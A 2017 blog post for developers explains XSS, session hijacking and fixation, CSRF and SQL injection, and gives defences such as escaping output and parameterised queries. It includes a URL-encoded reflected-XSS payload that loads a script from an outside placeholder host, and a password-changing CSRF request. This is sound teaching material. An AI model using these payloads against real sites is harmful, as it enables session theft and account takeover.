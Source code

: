 ```yaml
---
layout: post
title:  "Understanding Web Application Security"
date:   2017-09-13 09:39:37 +0300
description: "
There are quite a lot of developers that when it comes to web application security they rely on whatever framework they are using to take care of that for them, but don't really have an understanding of what's happening behind the scenes. Web application security is quite a complex topic, we will be covering: 1. Cross-site scripting, also called XSS scripting, 2. Session hijacking, 3. SQL Injection. Both cross-site scripting and SQL injection are cases of code injection...
"
icon: "lock.png"
categories:
---
```

I can testify that a lot of people confided in me they considered doing this (including yours truly) under the frustration of the bi-monthly administrative policies that mandated we change our workstation password:

![image-title-here](/images/my-password.jpg){:class="img-responsive"}

This sort of thing happens more than you would imagine—what a lot of people don't know is that hackers rely a lot on *social engineering* to gain access to systems. Mitnick was famous for calling in, pretending to be somebody he wasn't and asking for somebody's password in order to "perform some maintainance".

## Phishing
If you've followed the US 2016 election cycle news, you might have heard that John Podesta was hacked. We was actually the victim of a *phising* scam whereby he received an email made to look like an email from Google (he was using Gmail) that informed him that he needed to change his password because unauthorized access to his account was detected. He fell for it, clicked on the link which redirected him to a page that looked like a Google page (he didn't pay attention to the URL it seems), and he entered his old and *supposedly* new credentials.

*But this is a scam, it's not what I wanted to talk about, because YOU as a developer cannot do anything about it. I actually want to talk about REAL  vulnerabilities in the software and how they can be addressed, which means understanding the vectors attackers have at their disposal.*

There are quite a lot of developers that when it comes to web application security they rely on whatever framework they are using to take care of that for them, but don't really have an understanding of what's happening behind the scenes. Web application security is quite a complex topic, we will be covering:

1. Cross-site scripting, also called XSS
2. Session hijacking
3. Cross-site request forgery, or CSRF
4. SQL injection

Both XSS and SQL Injection are cases of *code injection*.

## Cross-Site Scripting
XSS refers to a vulnerabity where an attacker is able to "inject" Javascript code that will be run by the application. In my previous article, I've discussed the [same-origin](http://achiral.io/cors-made-simple) policy concept at length which states that if content from one site is granted permission to access resources on a system, then any content from that site will share these permissions, while content from another site will have to be granted permissions separately. 

<i>A lot of people think that SOP prevents XSS attacks. This is <b>not the case.</b></i>

A typical example of XSS is *persistent cross-site scripting*. If a page isn't properly *sanitizing* the user input (a field in a for, for example), a user could actually type in valid Javascript code, which is going to be saved by the application in its database and be subsequently rendered everytime it displays a page. Imagine you have a page that is visible to multiple users (such as a product page) which allows for users to add comments. If the page is not escaping user input, it is possible for a malicious user to write actual an script block, which will then be rendered to all users as part of the page HTML. The Javascript code has access to the cookies of that user and it can send that information to the a attacker.

![image-title-here](/images/attack.png){:class="img-responsive"}

An alternative is the *reflected* (or non-persistent) XSS atack, whereby the user's input is not stored in the database, but returned back in the same way it was inputed. It works like this: say you have a page that allows you to search for products. The user types some text in the search box and clicks the search button which sends a GET request to the server.

<pre>
GET http://www.onlineshop.com?search=something
</pre>

If the site finds something, it returns a list of results, but if it doesn't, it's going to say

*Your search, 'something', returned no results.*

... which is just the original, unaltered string. A crafty attacker might see this vulnerability and might send an email to the user asking him to click on a link which for the search term, contains some nefarious script block. If the user clicks on the link (which is likely because most people don't hover on links to see where they lead to), the application server won't be able to find any result, and will return with a *not found* page containing the script rendered directly on the page. 

<pre>
GET http://www.onlineshop.com?
  search=%3Cscript%2520src%3D%22http%3A%2F%2Fsomesite.com%2Fscript.js%22%3E%3C%2Fscript%3E 
  HTTP/1.1
</pre>

This script can then hijack the session cookie, like in the previous example.

What can we do about it? Actually two things:

1. Validate inputs: this means checking that the user didn't try to input any funky stuff and warning him if this is the case.
2. Sanitize outputs: everything that's rendered to the bage must be HTML escaped. This means that script blocks will be displayed as text, and won't be part of the DOM, and thus executed.

If you are developing with Node / Express, there are plenty of packages to help you safeguard against XSS attacks, such as [helmet](https://www.npmjs.com/package/helmet) or [xssfilter](https://www.npmjs.com/package/xssfilter) etc.

## Session Hijacking
Most web applications use a session mechanism which allows the server hosting the web application to know which user is making a specific request. Sessions usually involve authenticating the user, creating some sort of *session_id* (usually a string) and setting a cookie with that value on the user's browser. Session hijacking is a way of getting to know that string.

One way to gain access to it is, as I mentioned, cross-site scripting. Another typical way of gaining access to that cookie is by sniffing packets. Since browsers send the cookies asociated with a domain for every request, somebody sniffing traffic would be able to see also the value of the session cookie. A typical way to sniff traffic is to set up an unencrypted wifi hot spot in a public place, and monitor the traffic of the people connecting to it. Does this mean I cannot use my online banking when I am connected to a public hotspot? No, because if the website uses SSL for all requests, the contents of the traffic won't be intelligible to a man-in-the-middle, and usually major sites like Facebook / Twitter, online banking etc. are pretty well secured. There are however plenty of smaller poorly written sites that only use SSL for the login page, and then pass the session cookie unencrypted to other pages.

Another way to gain access to a user's session is to get that user to install a mallware on his/hers computer. Since browsers usually store cookies on disk, that mallware would be able to access the cookie if it knows where to look for it. 

A yet another way of acomplishing session hijacking is *session fixation*. There are plenty of sites that accept a session ID in the URL, such as:

<pre>
http://www.website.com?sid=asb1sadasdasdan23123
</pre>

The reason why they do it is because a lot of users turn of their cookies, ironically, for security reasons. This however would open them up to scams, like somebody sending them an email which says:

<blockquote>
Hey, click on http://www.website.com?sid=asb1sadasdasdan23123, and enter credit card and address information to receive a free bonus on your order.
</blockquote>

Since the attacker knows the session id, he/she can also log to that page and see the information inputed by the user.

## Cross-Site Request Forgery
CSRF is an attack that tricks the victim into submitting a malicious request. Since the browser usually sends the session cookie with the request, the server perceivs the request as legitimate. An important part of CSRF attacks is *social engineering*. 

![image-title-here](/images/csfr.png){:class="img-responsive"}

Let's say a site exposes some functionality in the form of a web request, like so:

<pre>
GET https://www.thesite.com/account?password=val HTTP/1.1
</pre>

This example is a bit contrived and oversimplified, but you get the picture. If the attacker can get the user to click on a link which points to that link **while logged in**, that's going to have the effect of changing the password for the user to whatever the attacker wants. This link can be part of an email, or it can be part of a message on a public board or a website set up by the attacker etc.

An action that changes the password will more likely be a POST than a GET, but that doesn't make it CSRF-proof either, because a user can be tricked into submiting a form. Here's how that would work: you could have a form with a hidden input like so:

<script src="https://gist.github.com/toaderflorin/6862d6a60d2dc4418a38fd81ae69e5bd.js"></script>

Using HTML forms with email is not really possible, because a lot of clients disable them or warn about them, but you could redirect the user to a page hosted somewhere. It turns out you don't even have to trick him/her to click on the submit button, that can be done by the site using Javascript (say by reacting to the document load event).

How about PUT and DELETE? Turns out that the *same-origin policy* helps us here, because attackers cannot do XHR requests from their site to the *http://www.thesite.com*. It's also why for POST attacks a form is being used instead of an POST XHR. SOP blocks that too.

## SQL Injection
And last (in our article), but certainly not least, we have SQL injection. I think most of us remember this:

![image-title-here](/images/exploit.png){:class="img-responsive"}

For SQL injection to work, you'd have to be writing your SQL queries using string interpolation / concatenation.

<script src="https://gist.github.com/toaderflorin/e842b81f3e4d1fef85087134717a1571.js"></script>

As you can see, the text fits nicely in the query. The way you get around this is by using parameters, which are supported by all database systems.